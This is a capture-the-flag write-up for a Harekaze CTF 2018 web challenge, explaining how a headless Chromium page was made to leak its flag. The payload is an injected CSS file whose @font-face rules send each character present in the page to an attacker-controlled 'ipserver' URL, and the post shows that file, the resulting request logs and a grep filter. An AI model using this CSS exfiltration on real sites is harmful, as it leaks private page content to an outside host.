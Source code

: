 ```yaml
---
layout: post
title:  "Harekaze CTF 2018 - A custom CSS for the flag"
date:   2018-02-11 22:00
categories: [HarekazeCTF2018]
tags: [Web]
author: jbz
---
```


Let’s decorate with fashionable CSS in this [site](http://problem.harekaze.com:10003/).

It's a 250 points **web** challenge.
Let's start, this is the home page:

![HomePage](https://raw.githubusercontent.com/jbzteam/CTF/master/HarekazeCTF2018/homepage.png)

As you can see there are some explanations and the source code of the application in the **server.js** [file](https://github.com/jbzteam/CTF/blob/master/HarekazeCTF2018/server.js).  

Thanks to the code we know that it's a node.js server, that has two distinct applications using the express framework. The first application (app) uses Chromium to visit the page served by the second application (app2). 

This page is simple, it has a div with `id=flag` containing the flag and a link pointing to an external css file. This css file is provided by us through the form in the main page.

This is the snippet showing the page structure.
```javascript
    res.send(`<html>
    <link rel="stylesheet" href="${encodeURI(req.query.css)}" />
    <body>
        <div id="flag">
                HarekazeCTF{${fs.readFileSync("flag.txt")}}
        </div>
    </body>
    </html>`);
```

The only part of the page controlled by us is the CSS file, so we need a method to exfiltrate data with CSS.  
Is it possible? YES!

Googling around in order to find a way to exfiltrate data we found a CSS file that uses the @font-face css properties in an interesting way.

For each letter it defines an external font url:
```css
@font-face{
    font-family:'Capital-A';
    src:url('http://ipserver/?Found:A');
    unicode-range:U+0041;
}
@font-face{
    font-family:'Capital-B';
    src:url('http://ipserver/?Found:B');
    unicode-range:U+0042;
}
@font-face{
    font-family:'Capital-C';
    src:url('http://ipserver/?Found:C');
    unicode-range:U+0043;
}
```
... and so on.  
We have to edit this file in order to include the symbols `{}-_` according to the information provided by the chall:  
_"The flag format is the two CSS3 properties connected by a underscore (_).

Example: HarekazeCTF{background-image_font-size}"_

Now the most important part about our CSS file is:
```css
#flag{
    font-family:'Capital-A','Capital-B','Capital-C' ... 
}
```

What the does CSS file do?  
It defines an external font for each letter or symbol, and when the letter is present in the div having `id=flag`, it loads that external font.  
Providing an URL for the font controlled by us we can see which letters compose the flag.

Keep in mind that we can only check whether a letter exists and not the amount of occurrncies.  
Next step is to upload the CSS file on a server managed by us, and to provide the URL to the page in order to have Chromium visiting it.  
Let's take a look at the log files to see which letters and symbols were found.
```
163.43.29.129 - - [10/Feb/2018:21:17:16 +0100] "GET /?Found:F HTTP/1.1" 200 466 "http://x.x.x.x/ctf.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/64.0.3282.119 Safari/537.36"
163.43.29.129 - - [10/Feb/2018:21:17:16 +0100] "GET /?Found:C HTTP/1.1" 200 466 "http://x.x.x.x/ctf.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/64.0.3282.119 Safari/537.36"
163.43.29.129 - - [10/Feb/2018:21:17:16 +0100] "GET /?Found:H HTTP/1.1" 200 466 "http://x.x.x.x/ctf.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/64.0.3282.119 Safari/537.36"
163.43.29.129 - - [10/Feb/2018:21:17:16 +0100] "GET /?Found:d HTTP/1.1" 200 465 "http://x.x.x.x/ctf.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/64.0.3282.119 Safari/537.36"
...
```
Parsing the log, this is the list:
```
Found:F 
Found:C 
Found:H 
Found:d 
Found:e 
Found:k 
Found:T 
Found:b 
Found:a 
Found:o 
Found:z 
Found:{ 
Found:m 
Found:t 
Found:- 
Found:f
Found:r 
Found:l 
Found:i 
Found:n 
Found:s 
Found:u 
Found:_ 
Found:c 
Found:} 
```

How to find the 2 css properties with these letters? Let's check the CSS properties one by one to see which ones have the corrisponding letters.  

Could we use Python, C, or GO? Yes, but we prefer the quick and dirty `grep` and `awk`!

```bash
| grep -v $'g|h|j|p|q|w|x|y' | awk '/d/ && /b/ && /o/ && /m/ && /t/ && /f/ && /l/ && /i/ && /n/ && /s/ && /u/ {print;}'
```
So we are given a list of some possible flags:
```
HarekazeCTF{animation-direction_border-bottom-left-radius}
HarekazeCTF{animation-iteration-count_border-bottom-left-radius}
HarekazeCTF{border-bottom-color_outline-offset}
HarekazeCTF{border-bottom-left-radius_animation-direction}
HarekazeCTF{border-bottom-left-radius_animation-iteration-count}
HarekazeCTF{border-bottom-left-radius_column-count}
HarekazeCTF{border-bottom-left-radius_column-fill}
HarekazeCTF{border-bottom-left-radius_column-rule}
HarekazeCTF{border-bottom-left-radius_column-rule-color}
HarekazeCTF{border-bottom-left-radius_columns}
HarekazeCTF{border-bottom-left-radius_content}
HarekazeCTF{border-bottom-left-radius_counter-increment}
HarekazeCTF{border-bottom-left-radius_counter-reset}
HarekazeCTF{border-bottom-left-radius_direction}
HarekazeCTF{border-bottom-left-radius_outline-color}
HarekazeCTF{border-bottom-left-radius_unicode-bidi}
HarekazeCTF{column-count_border-bottom-left-radius}
HarekazeCTF{column-fill_border-bottom-left-radius}
HarekazeCTF{column-rule_border-bottom-left-radius}
HarekazeCTF{column-rule-color_border-bottom-left-radius}
HarekazeCTF{columns_border-bottom-left-radius}
HarekazeCTF{content_border-bottom-left-radius}
HarekazeCTF{counter-increment_border-bottom-left-radius}
HarekazeCTF{counter-reset_border-bottom-left-radius}
HarekazeCTF{direction_border-bottom-left-radius}
HarekazeCTF{outline-color_border-bottom-left-radius}
HarekazeCTF{outline-offset_border-bottom-color}
HarekazeCTF{unicode-bidi_border-bottom-left-radius}
```
We had to try it one by one, but we followed our heart and, since one of us said that the flag should've started with `border-bottom`, we got really lucky and found it on the 5th attempt:
```
HarekazeCTF{border-bottom-left-radius_animation-direction}
```

Bonus: [a python script](https://github.com/jbzteam/CTF/blob/master/HarekazeCTF2018/css.py) to get the possible flag instead of dirty grep hacks
